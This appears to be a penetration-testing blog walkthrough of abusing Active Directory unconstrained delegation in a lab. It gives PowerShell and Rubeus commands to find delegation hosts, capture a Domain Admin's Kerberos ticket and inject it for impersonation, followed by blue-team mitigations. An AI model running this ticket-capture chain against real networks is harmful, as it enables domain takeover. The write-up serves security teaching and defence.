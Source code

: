 #  Unconstrained Delegation in Active Directory  
### From a Penetration Testing Perspective

---

## Introduction

In modern Active Directory (AD) environments, **Unconstrained Delegation** remains a commonly abused misconfiguration. It provides an easy path for privilege escalation and lateral movement, especially in internal penetration tests where attackers assume the breach scenario.

This blog documents a full scenario from a red team perspective, demonstrating how a compromised machine configured with unconstrained delegation can lead to Domain Admin compromise.

---

## Lab Setup

- **Engagement Type:** Internal Active Directory Penetration Test  
- **Assessment Approach:** Assume Breach (Local Admin on host)  
- **Duration:** 2 Days  
- **Attacker Host:** `JOINEDDOMAIN2`

---

##  Step 1: Discover Unconstrained Delegation Machines

First, we import PowerView and PowerUp modules to enumerate AD objects:

```powershell
powershell -ep bypass
.\powerview.ps1
.\powerup.ps1
Get-DomainComputer -Unconstrained | Select-Object -ExpandProperty name
```

**Output:**

![image](https://github.com/user-attachments/assets/88c45cee-fa40-4e66-b5e9-1dcfaacf3d36)

As seen, `JOINEDDOMAIN2` is among the systems configured with unconstrained delegation.

---

##  Step 2: Confirm NTLM Compatibility (for Kerberos Ticket Handling)

Ensure the target machine allows the usage of NTLMv2, which supports the Kerberos ticket handling used in our attack.

![image](https://github.com/user-attachments/assets/e4324116-333c-4377-a941-84f759b8b1c1)


---

##  Step 3: Start TGT Monitoring with Rubeus

```powershell
.\Rubeus.exe monitor /interval:10 /filteruser:JOINEDDOMAIN2 /nowrap
```

Rubeus will monitor for incoming TGTs every 10 seconds.
![image](https://github.com/user-attachments/assets/db10458c-6780-42e9-a137-e96e6b81b10d)


---

##  Step 4: Admin RDP Access (Victim Logs In)

Enable RDP on the victim machine (JOINEDDOMAIN2):

![image](https://github.com/user-attachments/assets/47dc29a9-3b6f-4f85-88c9-4b198b55d3af)


Domain admin logs in via RDP:

![image](https://github.com/user-attachments/assets/e20c5eff-0255-4988-8d7e-2ce714995a55)


Connection from domain controller using MARVEL\Administrator:

![image](https://github.com/user-attachments/assets/a2bb378e-b1be-4e5b-b53e-b6b35c11374c)


---

##  Step 5: TGT Captured by Rubeus

Once the Domain Admin logs in, Rubeus captures the TGT:

![image](https://github.com/user-attachments/assets/211b3920-79e6-4c6f-bd6a-ab9fd8561f32)


---

##  Step 6: Inject TGT and Assume Identity

Use the captured TGT to inject and impersonate the Domain Admin:

```powershell
.\Rubeus.exe ptt /ticket:BASE64TICKET==
```

Result:

![TGT Injected](sandbox:/mnt/data/287eb3a5-0040-44d1-8a66-7c02bfbbeff1.png)

---

##  Step 7: Explore Filesystem as Domain Admin

List contents of `Administrator` and `Pparker` profiles to demonstrate proof of access:



---

##  Mitigations for Blue Teams

- Audit delegation settings:
  ```powershell
  Get-ADComputer -Filter * -Properties TrustedForDelegation | Where-Object { $_.TrustedForDelegation -eq $true }
  ```
- Replace unconstrained delegation with **constrained** or **resource-based constrained delegation**.
- Restrict high-privilege accounts from logging into non-secure hosts.
- Monitor for tools like Rubeus using EDR solutions.
![image](https://github.com/user-attachments/assets/c0e77148-a898-4ba3-b039-7fb63679b98c)

---

##  Conclusion

This scenario demonstrates how **Unconstrained Delegation**, although an old vulnerability, still leads to **Domain Admin compromise** in 2025 environments. It is a red team's low-effort, high-reward pathway when misconfigurations persist in internal networks.

**Lesson:** One RDP session to the wrong host can compromise your domain.

---

* Toolset: PowerView, PowerUp, Rubeus | Scenario: JOINEDDOMAIN2 Misconfiguration Exploitation*

